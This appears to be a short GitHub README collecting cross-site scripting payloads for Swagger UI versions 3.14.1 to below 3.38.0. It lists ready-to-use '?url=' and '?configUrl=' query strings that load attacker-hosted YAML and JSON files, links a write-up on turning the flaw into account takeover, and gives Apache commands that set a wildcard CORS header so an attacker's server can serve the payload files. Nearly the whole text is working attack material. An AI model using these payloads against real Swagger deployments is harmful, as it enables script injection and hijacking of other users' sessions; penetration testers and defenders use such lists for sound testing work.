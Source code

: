 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

test.json -> test.yaml
`?configUrl=https://xxx.xxx.xxx/test.json`

### `apache CORS bug`
`a2enmod headers`

`vim /etc/apache2/apache2.conf`

```
<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
        Header set Access-Control-Allow-Origin "*"
</Directory
```

`apachectl -t`

`sudo systemctl restart apache2` or `sudo service apache2 restart`



## From :)

https://github.com/VictorNS69/swagger-ui-xss

https://github.com/seanmarpo/swagger-xss-payloads#swagger-xss-payloads
